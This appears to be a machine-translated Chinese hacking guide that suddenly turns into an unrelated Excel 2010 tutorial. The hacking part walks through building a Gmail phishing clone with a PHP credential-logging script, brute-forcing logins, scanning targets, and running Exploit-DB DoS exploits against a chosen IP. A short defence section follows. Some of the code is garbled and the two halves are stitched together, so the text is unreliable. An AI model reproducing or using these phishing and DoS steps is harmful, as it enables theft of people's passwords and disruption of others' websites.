

2. 屏幕将向你显示一个对话框（见下）。使用此对话框配置暴力破解方法。显然，如果你对目标密码有一定的了解，你的工作将简单得多。例如，如果你知道该网站需要 5-10 个字符的密码，你将能够缩小范围并缩短整个过程。



3. 点击“确定”按钮。`Brutus`将通过尝试所有可能的密码登录目标服务器。你将在程序的 GUI（即图形用户界面）上看到结果。

### 钓鱼攻击

通过这种技术，你将通过欺骗受害者来窃取机密信息（例如密码）。例如，黑客伪装成银行代表并向目标用户发送了电子邮件。该电子邮件要求用户点击链接更改其密码。当用户点击链接时，她看到了一个与实际银行相似的网站。然而，该网站只是一个副本。在其中输入的任何信息都将发送到黑客的数据库或电子邮件帐户。

重要提示：顶尖黑客使用`HTML`创建看起来像官方网站的钓鱼网站。

在创建钓鱼网站时，你需要执行以下操作：

1. 选择你的目标 – 大多数黑客模仿电子邮件服务提供者的网站。这样做有两个原因：
   - 用户经常登录他们的电子邮箱账户。这意味着黑客有大量机会欺骗他的目标。
   - 电子邮件账户极其有用。大多数时候，电子邮件账户与其他账户（例如银行账户）相关联。因此，你只需要破解他的电子邮箱账户，就可以获得大量关于该用户的信息。

在本书中，让我们假设你想为`Gmail`创建一个钓鱼网站。

2. 复制官方网页 – 启动`Mozilla Firefox`（黑客推荐这种浏览器，因为它安全且可定制）并访问实际网站的登录页面。在键盘上按`CTRL+S`创建实际网站的本地副本。
3. 重命名文件 – 保存网页后，将其名称更改为“`index.htm`”。索引页是任何人访问网站时显示的第一个网页；因此，让目标用户相信他到达了真实网站的索引页。
4. 创建脚本 – 你应该创建一个记录用户登录信息的计算机脚本。大多数黑客使用`PHP`脚本语言来完成此任务。下图显示了一个记录登录凭据的基本`PHP`脚本。

打开记事本并输入脚本。将文件保存为“`phish.php`”。

```php
<?php
Header:Location: https://www.google.com/accounts/ServiceLogin?service=mail&password=true&rm=false&continue=http%3A%2F%2Fmail.google.com%2Fmail%2F%3Full3Dhtm%2F6zy%3Dbsv-1kv9gif4806cy&ftmpl-default&ftmplache=2";
Shadle = fopen("list.txt", "a");
foreach($_GET as $Variable => $value) {
  fwrite($Shadle, $Variable);
  fwrite($Shadle, "=");
  fwrite($Shadle, $value);
  fwrite($Shadle, "\r\n");
}
write($Shadle, "\r\n");
fclose($Shadle);
exit();
?>
```


- 5. 创建一个空的`.txt`文件并将其保存为`list.txt`。
- 6. 将脚本添加到网页中 – 使用记事本使用文件名`index.htm`。按`CTRL+F`，输入“action”，并点击“查找下一个”。这里有一张截图：



在脚本的“form”部分查找“action”。删除它并输入`phish.php`。通过这样做，你指示表单发送你的脚本而不是 Google。搜索`method="post"`。将“post”替换为“get”，使代码变为`method="get"`。

- 7. 保存文件并关闭。
- 8. 将 HTML 文件上传到网站主机 – 托管服务商将为你提供该网页的 URL。你可以将该 URL 用于黑客目的。
- 9. 如果你访问该网页，你会看到它看起来像 Gmail。该网页将记录输入的用户名和密码。它会将信息保存到空的`.txt`文件中。

# 彩虹表

基本上，彩虹表是所有可能的组合的哈希值列表。为了获取哈希值，你需要通过算法来转换密码。这是一种单向加密方式：你无法通过哈希值确定原始数据。大多数网站数据库使用哈希的数学算法 MD5 来保护密码。

假设你注册了一个网站。你输入了所需的登录凭据（即用户名和密码）。一旦你点击“提交”按钮，算法将处理密码并将哈希值存储在数据库中。

由于无法通过哈希值确定密码，你可能好奇网络如何知道你的密码是否正确。嗯，当你输入登录凭据时，系统会对这些信息运行算法。然后，它会将生成的哈希值与存储在数据库中的进行比较。如果哈希值匹配，你就可以登录。

根据专家黑客的，这种方法比暴力破解法更有效。一旦你创建了彩虹表（即哈希值列表），就可以快速破解密码。

# 如何防止这些密码破解技术

## 社会工程

为了阻止“社会工程师”，你必须保持小心警留。如果有人给你打电话，并且不是

如果你认为他正在对你使用社会工程策略，请向他提问可以证明其身份的问题。

重要提示：某些精英黑客会对他们的目标进行研究。这意味着他们可能会通过回答你的问题来“证明自己的身份”。正因如此，如果你仍然怀疑此人所说，你应该与他声称所属部门主管联系以获取更多信息。

## 窥视攻击 (Shoulder Surfing)

在输入登录凭据时，确保没有人看到你在输入的内容。如果你看到可疑的人，靠近他并施展你的摔跤技巧。好吧，并不是真的。你只需要在输入信息时小心。

## 猜解 (Guessing)

为了防止这种攻击，不要使用与你的个人信息相关的密码。无论你对宠物或配偶有多爱，永远不要使用他们的名字作为密码。

## 字典攻击 (Dictionary Attack)

你可以保护自己免受这种攻击——不要使用字典中存在的密码。不，用数字替换字母（例如 banana – b4n4n4）是不安全的。在创建密码时，最好结合字母、数字和特殊字符。

## 暴力破解法 (Brute-Force Approach)

为了防止这种技术，你应该使用一个包含大量数字和特殊符号的长密码。长而复杂的密码会给“暴力破解者”带来困难。如果黑客在尝试几天后仍无法破解你的密码，他可能会寻找另一个目标。

## 钓鱼攻击 (Phishing)

为了保护自己免受这种技术的侵害，你只需要检查浏览器的地址栏。例如，如果你应该在`www.facebook.com`但地址栏显示了不同的 URL（例如`www.pacebook.com`、`www.faccom.com`、`www.facebook.com`等），你就知道一个黑客正试图欺骗你。

## 彩虹表攻击 (Rainbow Tables)

你可以通过创建长密码来防止这种技术。根据精英黑客的说法，为长密码生成哈希表需要大量的资源。

## “密码破解器”（Password Crackers）

以下是黑客破解密码时使用的程序：

- SolarWinds
- Can and Abel
- RainbowCrack
- THC Hydra
- John the Ripper

# 第 4 章：如何破解网络

在本章中，你将学习如何破解网站和计算机网络。请仔细学习这些材料，因为它们将教你与黑客相关的重要思想和技术。

## 足迹 (Footprinting)

“足迹”一词是指收集有关计算机网络及其所属公司或组织数据的过程。这个过程是大多数黑客攻击的初始步骤。足迹是必要的，因为黑客在进行任何攻击之前必须了解其目标的所有信息。

在对网站进行足迹扫描时你需要采取以下步骤：

- 1. 你应该研究网站中使用的名称和电子邮件地址。如果你计划对目标执行社会工程策略，这些数据将非常有用。
- 2. 获取网站的 IP 地址。要获取此信息，请访问此网站并输入目标的 URL。然后点击“Get IP”按钮。几秒钟后，屏幕将显示目标网站的 IP 地址。
- 3. Ping 目标服务器检查其是否处于激活状态。显然，你不想浪费时间攻击一个“死”目标。精英黑客使用`www.just-ping.com`来完成此任务。基本上，`www.just-ping.com`从全球各个地方 ping 任何网站。

要使用此工具，将目标的 URL 或 IP 地址输入文本框并点击“ping”！这里有一张截图：



网页将显示目标是否处于活跃。

- 4. 对网站执行 WHOIS 搜索。访问`http://whois.domaintools.com`输入目标的 URL。屏幕将显示许多关于拥有目标网站的个人/公司/组织的数据。

重要提示：WHOIS 搜索为黑客提供了不同类型的信息，如名称、地址和电话号码。此搜索还提供了特定的网站细节（例如网站的 DNS、域名的过期日期等）。

## 端口扫描 (Port Scanning)

这是黑客过程的第二阶段。在收集有关目标的信息后，你应该执行“端口扫描”。基本上，“端口扫描”是一个检测网络中开放端口并列出网络中设备的过程。这意味着你可以利用这一步骤来识别目标的弱点和防御系统。

下面的练习将说明端口扫描是如何工作的：

- 1. 从此网站下载 Nmap：`http://nmap.org/download.html`。然后将程序安装到你的计算机中。

注意：该软件适用于 Windows 和 Macintosh 计算机。

- 2. 启动 Nmap 并输入目标的 URL。对于本次练习，让我们假设我们要破解一个名为`www.target-site.com`的网站。
- 3. 寻找“Profile”部分并点击其下拉按钮。屏幕将显示几个扫描选项。大多数情况下，精英黑客会对目标进行快速（且轻量）扫描。全版本扫描可能会触发目标的防御系统，因此最好远离那些选项。这里是下拉菜单的截图：



- 4. 点击“Scan”按钮并等待结果。这里有一个示例：

| Port | Protocol | State | Service | Version |
| --- | --- | --- | --- | --- |
| 22 | tcp | open | ssh | |
| 24 | tcp | open | pri-mal | |
| 53 | tcp | open | domain | |
| 80 | tcp | open | http | |
| 111 | tcp | open | rpcbind | |
| 3306 | tcp | open | mysql | |

如你所见，Nmap 可以检测目标中存在的端口和服务。

## 标志抓取 (Banner Grabbing)

在此阶段，你将获得更多关于目标端口和服务的信息。黑客使用 telnet 完成此任务。下面的练习将帮助你理解这一阶段：

- 1. 访问你计算机的终端（如果你是 Mac 用户）或命令提示符（如果你是 Windows 用户）。

重要提示：如果你的操作系统是 Windows，你必须手动安装 telnet。以下是你需要做的：

- 1. 进入控制面板并点击“程序和功能”。
- 2. “启用或关闭 Windows 功能”，选择“Telnet”。
- 3. 点击确定。
- 2. 访问你计算机的终端（如果你是 Mac 用户）或命令提示符（如果你是 Windows 用户）。
- 3. 选择一个端口。对于本次练习，让我们假设我们要破解一个名为`www.target-site.com`的网站。要确定 FTP 软件，使用语法：`telnet www.target-site.com 21`
- 4. 你的计算机将显示所选端口的类型和版本。这里有一个示例：



## 寻找漏洞

现在你已经有了关于端口软件的一些信息，你可以开始寻找可用的漏洞（即用于破解计算机的工具）。如果有可用漏洞，你可以在目标可以使用它并获得完全控制。另一方面，如果没有可用漏洞，你必须处理另一个端口。

以下是黑客常用的漏洞数据库：

- osdb
- exploit-db
- SecurityFocus

## 最常见的黑客攻击

在讨论实际的网络渗透之前，让我们讨论两种最流行的黑客攻击。

DoS – 这是“拒绝服务”（Denial-of-Service）的缩写。通过这种攻击，黑想要想要服务器。这意味着合法用户无法访问网络或使用受影响的服务。大多数情况下，黑客通过向目标网络发送无尽的数据流来实现这一点。这种策略迫使网络消耗所有的可用资源。一旦资源耗尽，任何人都无法使用网络。

Buffer Overflow – 黑客也将这种攻击称为“Buf”。缓冲区溢出攻击

当计算机程序试图将大量数据保存存储区域（也称为“缓冲区”）时就会发生这种情况。由于缓冲区的存储容量有限，多的数据将进入其他区域。当这种情况发生时，黑客可能会用恶意代码淹网络。

## 两种漏洞类型

黑客将漏洞分为两类，即：

- 本地漏洞（Local Exploits）——这些漏洞需要黑客物理上访问目标计算机。通常，攻击者利用这种漏洞来提升其在机器或网络上的访问权限。简单来说，你可以使用本地漏洞来获得对目标的管理员权限。
- 远程漏洞（Remote Exploits）——这些漏洞与本地漏洞类似。唯一的区别是，黑客可以在不物理接触目标机的情况下的情况下运行远程漏洞；因此，与本地漏洞相比，远程漏洞更安全。

重要提示：大多数情况下，黑客在攻击中会同时使用两种类型的漏洞。例如，你可能使用远程漏洞获取普通权限。然后，你可以使用本地漏洞获得对目标的管理员访问权限。这种方法允许你完全控制机器或网络。

## 渗透

本节将教你黑客如何渗透他们的目标。

## 编程语言

在练习你的黑客技巧时，你会发现黑客使用不同的编程语言来创建漏洞。以下列表显示了目前最流行的编程语言：

- PHP – 你在最近会发现很多 PHP 漏洞。使用这种语言编写漏洞时，你必须以`<?php`开头代码，并以`?>`结束。假设你想对一个 FTP 服务器造成一些临时破坏。如果你使用 Exploit-DB 数据库，你将发现这个漏洞：

`https://www.exploit-db.com/exploits/39082/`

以下是你攻击目标时需要采取的步骤：

- 1. 在你的计算机上安装 PHP 语言。你可以访问此网站免费获取 PHP。
- 2. 从 Exploit-DB 复制 PHP 代码并将其粘贴到文字处理器中。将文件保存为`exploit.php`。
- 3. 进入漏洞文件的第13行输入目标的 IP 地址。将修改后的文件保存到计算机的 PHP 目录（即包含 PHP`.exe`文件的目录）。
- 4. 访问计算机的命令提示符。然后运行`CD`（即更改目录）命令并指定 PHP 目录的位置。
- 5. 输入`php exploit.php`并按回车键。
- 6. 你的计算机将对目标发起 DoS 攻击。只有在你关闭命令提示符后攻击才会停止。
- 7. 测试你攻击的效果。要做到这一点，访问目标网站并点击标签页/按钮。如果攻击成功，网站将卡顿并出现异常的加载时间。一段时间后，网站可能会完全离线。

- Perl – 这种语言像 PHP 一样简单易用。使用这种编程语言，你应该：

- 1. 访问此网站：`http://www.activestate.com/activeperl`。然后，下载并安装正确版本的 Perl。
- 2. 寻找一个你可以使用的漏洞。对于本书来说，假设你想使用此漏洞攻击 WinFTP 服务器：

`https://www.exploit-db.com/exploits/36861/`

- 3. 通过输入所需信息（例如目标的 URL、你想攻击的端口等）来修改代码。然后，将其复制到文本文件中并将文档保存为`exploit.php`（注：此处应为`exploit.pl`）。
- 4. 访问命令提示符。使用更改目录命令指定 Perl 文件的位置。
- 5. 输入`perl exploit.pl`来运行它。你的计算机将对目标发起 DoS 攻击。只有在你关闭命令提示符后攻击才会停止。

# 第5章：渗透测试

渗透测试（Penetration Testing）是一种检测、探测和改进防御的合法尝试。大多数情况下，这由想要发现弱点的网络所有者发起。

## 渗透测试四步模型

黑客将渗透测试分为四个步骤：

### 侦察

在这一步，黑客需要收集有关目标的信息。

### 扫描

这一步包含两个部分如下：

- 1. 端口扫描 – 你在之前的章节中学习过这个主题。基本上，端口扫描是检测可用端口的过程。
- 2. 漏洞扫描 – 在过程中，你将在网络内部搜索存在的漏洞。

### 漏洞利用

由于你已经收集了目标的信息，扫描了网络并寻找了漏洞，你现在准备好进行“实际黑客”。这一步涉及各种工具。

### 维持访问

这是模型的最后一部分。显然，建立目标的管理员访问是不够的。你必须维持该访问权限以便进行其他攻击。为了完成这项任务，白帽黑客使用后门程序和远程漏洞。

# 第一章：Excel – 基础

Excel 是一款出色的电子表格程序，允许你创建包含图表和计算的表格。在使用此程序时，你的计算范围可以从简单的加法到复杂的函数和数学模型不等。

在本章中，你将学习 Excel 的基础知识。这些材料将教你学习与此功能强大的电子表格应用相关的概念和原理。

## Excel – Windows 程序

微软作为当今领先的软件制造商之一，将 Excel 创建为其“Office 办公套件”的一部分基本上，MS Excel（即 Microsoft Excel）是一个使用广为人知的 Windows 图形用户界面的程序。一旦激活，Excel 将位于一个独立的“窗口”中——即包含程序组件的大正方形。

Windows 操作系统（例如 XP、Vista、7 等）具有内置功能，允许你自定义 Excel 窗口的外观。这些功能包括：

- 边框（Border）—— 这是在当 Excel 窗口未最大化时，包裹该窗口的框。如果你将鼠标悬停在边框上，它将变成一个双头箭头——此箭头允许你调整 Excel 窗口的大小。
- 标题栏（Title Bar）—— 这是任何 Excel 窗口顶部的彩色区域。此功能显示你正在使用的程序名称。如果 Excel 窗口已最大化，标题栏还将显示你当前工作簿名称。

你可以使用标题栏来重新定位 Excel 窗口。只需确保窗口未最大化即可。点击标题栏并将其拖动到你喜欢的位置。

- 最小化按钮（Minimize Button）—— 当访问工作簿时，Excel 将向你显示两个窗口：(1) 程序窗口和 (2) 工作簿窗口。你可以最大化这些窗口以充分利用可用屏幕空间。如果你想让 Excel 程序覆盖整个屏幕，请点击屏幕右上角的最大化按钮。要确保工作簿填充 Excel 窗口，请点击 Excel 程序内部的最大化按钮。
- 最小化按钮（Minimize Button）—— 这允许你在不退出 MS Excel 的情况下使用其他计算机程序。点击最小化按钮将 Excel 变成桌面任务栏上的一个小图标。这样做之后，你将能够启动/访问所需的其他文件或程序。当你准备好再次操作 Excel 时，只需点击任务栏上的 Excel 图标。

工作簿窗口也有此按钮。你可以用它轻松地管理多个工作簿。

- 还原按钮（Restore Button）—— 只有当窗口最大化时你才能使用此按钮。点击还原按钮（无论是在程序窗口还是工作簿窗口中）后，窗口将缩小。这意味着你能够调整窗口的大小和位置。
- 关闭按钮（Close Button）—— 使用此按钮关闭窗口。

## 菜单和功能带（Menus and Ribbons）

最新版本的 MS Excel 没有菜单。Excel 不使用可点击的菜单，而是使用功能带（ribbons）向用户显示选项。本电子书基于 Excel 2010，因此在阅读本手册时你将使用功能带。

## 什么是功能带？

功能带是一个标签页，显示了用户可以使用的各种命令。

## 不同类型的功能带

以下列表显示了你在使用 Excel 时遇到的三个功能带：

- 首页（HOME）—— 此功能带包含基础格式设置命令。


- 插入（INSERT）—— 此功能带允许你向电子表格中插入不同的对象。


- 文件（FILE）—— 它是 MS Excel 的主功能带。使用此功能带创建新工作簿、保存更改或打开现有文件。



## 使用功能带

功能带使用可点击的图标来显示选项和命令。通过将鼠标放在图标上，你将看到有关该特定命令或选项的有用信息。显然，点击图标将对其效果应用到程序或活动工作簿上。

某些图标带有下拉箭头——点击这些箭头将显示与该图标相关的更多选项。形状（Shapes）图标是一个很好的例子：此图标允许你向工作簿中插入各种形状。这是一张截图：

## 对话框（Dialog Boxes）

在每个功能带内部，图标被分为“组（Groups）”。这些组有名称，这意味着你只需通过阅读屏幕上的一些单词就能轻松找到你所需。某些组有一个箭头——此箭头被称为“对话框启动器（Dialog Box Launcher）”。点击此箭头将显示一个对话框。这是一个示例：



# 第二章：数据处理

## 移动（Moving）

由于 Excel 提供了广泛的工作区域，你必须知道如何将数据放置在不同的位置。你可以通过两种方式在 Excel 中移动：

- 使用鼠标——如果你是短距离操作，此选项最为理想。只需点击你想工作的单元格并开始输入。
- 使用键盘——Excel 允许你使用键盘上的箭头键。按下箭头键直到到达理想单元格。在这种情况下，你可以在不使用鼠标的情况下向单元格格数据。

## 滚动（Scrolling）

与任何程序一样，MS Excel 有滚动条。你可以使用这些滚动条来查看工作簿的不同部分。这是一张截图：



滚动条要求你使用鼠标。

## 工作格（Worksheets）

## 在工作格之间移动

系统每次生成新工作格时都会创建三个工作格。它们命名为`Sheet1`、`Sheet2`和`Sheet3`。要访问特定工作格，只需点击其标签。这是一张截图：


## 在工作格内部移动

在 Excel 中，按`F5`进入单元格。按下`F5`会打开对话框。

## 输入数据（Enter Data）

要向单元格输入数据，只需将光标放在目标单元格。Excel 允许单个单元格输入 32000 个字符。

Excel 程序接受字母和数字。此外，这些程序以不同的对齐方式显示数据——字母左对齐；数字右对齐。然而如果你需要，可以使用其他对齐方式。

## 取消数据输入（Cancel Data Entries）

在某些情况下，人们会在单元格中误输入。在你按下`Enter`键之前，Excel 允许取消错误输入。

要取消错误的输入，只需点击公式栏附近的“X”。这是一张截图：


或者，你可以通过按下键盘上的`Esc`键取消输入。

## 修改未确认输入（Modify an Unconfirmed Entry）

Excel 允许编辑未确认的输入。如果你想对输入进行简单调整（例如删除/替换字母），只需双击包含它的单元格。然后，按退格键或输入正确的字符。

## 自动完成功能（Autocomplete）

Excel 提供“自动完成”——这是一项可以在输入数据时节省精力的功能。基本上，Excel 记得你在工作簿中输入过的数据。当你在新单元格中输入时，它都会提供这些输入作为建议。此过程与 Google 在你运行搜索时显示的建议相似。这是一张截图：

| | B |
|---|---|
| 1 | Novel |
| 2 | Novel |
| 3 | |

## 如何使用此功能

- 选中列的下一个空白单元格。
- 开始输入数据。MS Excel 将检查新输入是否与同列中的任何项目相似。如果是，程序将自动完成输入。
- 如果你想接受建议，按`Enter`完成过程。
- 如果你需要输入新数据，只需忽略 Excel 的建议并继续输入。完成后按`Enter`。

## 如何从列表中选择

在某些情况下，Excel 会显示多个建议。当用户处理相似条目时，就会出现这种情况。从建议列表中选择非常简单易用。你可以通过两种方式实现：

- 使用键盘：
  1. 使用方向键高亮正确的单元格
  2. 同时按下`ALT`和“向下”箭头键。此操作将显示可能条目的列表。
- 使用鼠标：
  1. 在单元格上点击右键
  2. 选择“从列表中选择”（PICK FROM LIST）
  3. 选择你需要输入的条目

重要说明：只有当你的条目是连续的（即中间没有间隙）时才能使用自动完成功能。如果两个条目之间存在间隙，Excel 将禁用这些项的自动完成功能。

## 如何禁用自动完成功能

在某些情况下，自动建议可能会让你困惑（甚至让你感到沮丧）。如果你不想看到这些建议，必须执行以下操作：

- 访问“文件”（FILE）选项卡并点击“选项”（Options）
- 转到“高级”（ADVANCED）并取消勾选“启用单元值的自动完成”（ENABLE AUTOCOMPLETE FOR CELL VALUES）复框

## 如何编辑单元格

在 Excel 中，更改或删除数据时有不同的选项。这些选项包括：

### 输入覆盖高亮条目

此功能在所有 Microsoft Office 程序中均可用。它确保你输入的字符将替换高亮的条目。例如，如果你高亮了“Apple”并输入“Banana”，第一个条目将会被第二个条目替换。

此功能非常有用，特别是当你需要对存储的数据进行快速/简单的更改时。

以下是使用此功能需要执行的操作：

- 1. 使用鼠标或方向键高亮正确的单元格
- 2. 输入新数据（一旦你开始输入，之前的条目将消失）
- 3. 按下回车键（`Enter`）完成操作

### 编辑模式

有时，不需要覆盖整个单词。例如，你只需要在条目中添加或删除一个字符。Excel 通过“编辑模式”解决了这个问题——这是一种允许你快速方便地编辑数据的写入模式。你可以通过以下方法激活此模式：

- 在单元格内部编辑：
  1. 双击你需要编辑的单元格。
  2. 使用方向键将光标置在正确的位置。
  3. 进行必要的更改并按下“回车”（`Enter`）。
- 通过公式栏编辑：
  1. 高亮想要修改的单元格。
  2. 当目标单元格的内容出现在那里时，点击公式栏。
  3. 根据需要编辑条目并按下“回车”键。

## 如何选择单元格

如果你需要编辑影响多个单元格的内容，必须先选择这些单元格。

在选择一组单元格时，MS Excel 会通过将其显示为白色来标识活动单元格——其他单元格为黑色。你可以通过以下方法在工作表中选择特定的单元格：

- 使用鼠标——当使用鼠标选择单元格时，你必须确保 Excel 显示“选择指针”（即白色的“+”符号）。

下表显示了你可以使用鼠标使用的选择技术：

| 要选择 | 你必须 |
|---|---|
| 单个单元格 | 点击该单元格或使用方向键。 |
| 一组单元格 | 点击初始单元格，并将鼠标拖动到该组中的最后一个单元格。 |
| 工作表中的所有单元格 | 按下“全选”按钮 |
| 不连续的单元格 | 选择第一个单元格，按住`CTRL`键并选择剩余单元格。 |
| 一长行单元格 | 高亮组的第一个单元格，按住`Shift`键，并点击组的最后一个单元格。 |
| 一整行 | 点击行号（即屏幕左侧的数字）。 |
| 一整列 | 点击列字母（即工作表顶部的字母）。 |
| 相邻的行/列 | 选择第一行/列，按住`Shift`键，并点击最后一行/一列。 |
| 不相邻的行/列 | 高亮第一行/列，按住`CTRL`键并点击剩余的行/列。 |

- 使用键盘——在单元格选择方面，键盘提供了极佳的控制。以下是你可以在 Excel 中使用的按键：

| 要选择 | 你必须 |
|---|---|
| 两个相邻的单元格 | 高亮第一个单元格，按住`Shift`键，并按下相应的方向键。 |
| 从当前单元格到工作表边缘 | 按住`CTRL`和`Shift`键。然后按下正确的方向键。 |
| 整个列 | 高亮属于你要选择的列的单元格，按住`CTRL`键并按下空格键。 |
| 整个工作表 | 按住`CTRL`和`A`键。 |
| 当前区域 | 按住`CTRL`键并按下数字键盘上的星号（`*`）。 |

## 如何清除数据、注释和格式

你必须清除单元格才能移除其内容。Excel 提供了清除单元格的各种方法——你应该使用的方法取决于你需要删除的内容。你可以使用键盘或 Excel 丝带清除单元格中的数据。这种方法简单快捷，尽管它只能删除文本、日期、数字和公式。

重要说明：删除格式化单元格的内容会保留格式。这意味着你不需要在同一个单元格上重新应用格式。如果有新数据，你只需输入即可。

### 清除单元格内容

- 高亮你需要处理的单元格/单元格。
- 在单元格或单元格组上点击右键。
- 左点击“清除内容”（Clear Contents）选项。

以下是截图：



### 清除格式

- 1. 选择正确的单元格。
- 2. 访问“首页”（Home）并点击“擦擦”图标。
- 3. 从下拉菜单中选择“清除格式”（Clear Formats）。

以下是截图：

### 清除注释

- 1. 高亮你想处理的单元格。
- 2. 转到“首页”（HOME）并点击“清除”（Clear）选项（即丝带右侧部分的白色擦擦）。
- 3. 点击“清除注释”（Clear Comments）选项。

下面的图片将作为有用的指南：



# 第3章：公式与函数

## Excel 中的公式

在处理电子表格时，你必须进行加、减、乘、除运算。这意味着电子表格程序必须接受、引用和处理数值。然而，在 Excel 中，公式作用于单元格而不是数值本身。这是因为无论类型如何，数值都会发生变化。如果公式所需的值发生了意外变化，公式就会失效。

例如，你在`B1`和`B2`中输入了一些数字。由于你使用的是 Excel，你不需要输入数字本身来应用公式。你只需要指定它们所在的单元格以及你想应用的数学运算。这里有一个例子：`B1 + B2`。在这里，即使数值发生变化，Excel 仍然会给出和。这种重新计算是电子表格程序受欢迎的原因之一。

重要说明：确保你的所有公式都有等号（`=`）。

以下是你可以在 Excel 中使用的运算符：

| 运算符 | 数学运算 |
|---|---|
| `+` | 加法 |
| `-` | 减法 |
| `/` | 除法 |
| `*` | 乘法 |
| `^` | 幂 |

### 输入公式

你必须在显示结果的单元格内输入公式。例如，如果你让`B1`和`B2`的和显示在`B3`中，你应该在`B3`中输入公式。公式看起来如下：`=B1+B2`。

输入公式时，你应该：

- 1. 高亮你想使用的单元格。
- 2. 输入等号（`=`）。
- 3. 输入公式。
- 4. 按回车键完成过程。

### 公式中的错误

人类会犯错。这意味着你偶尔会从 Excel 计算中得到错误的结果。通常，这些错误结果源于公式中的错误（例如，你用了`+`而不是`/`）。你可以使用上一章中解释的编辑方法来纠正你的公式。

以下是修改公式需要的操作：

- 1. 高亮包含公式的单元格。然后，双击它。
- 2. 进行必要的更改。
- 3. 按回车键。

## 在多个单元格上应用公式

某些情况需要你对不同的单元格组应用公式。例如，你需要对单列列中的所有单元格进行加法运算。反复输入相同的内容会让你精疲力竭，因此 Excel 提供了“填充公式”功能，这真是件好事。

基本上，此功能从你的其中一个单元格中复制公式并将其应用到其他单元格。这意味着你无需重复输入内容即可完成工作簿。

要使用此功能，你需要：

- 突出显示包含公式的单元格。
- 将鼠标悬停在单元格的左下角。此操作会将白色十字星变成黑色十字星。
- 将鼠标拖动到目标单元格（即你想应用公式的那些单元格）。Excel 将高亮显示这些单元格。
- 一旦 Excel 高亮显示了所有需要的单元格，松开鼠标左键。
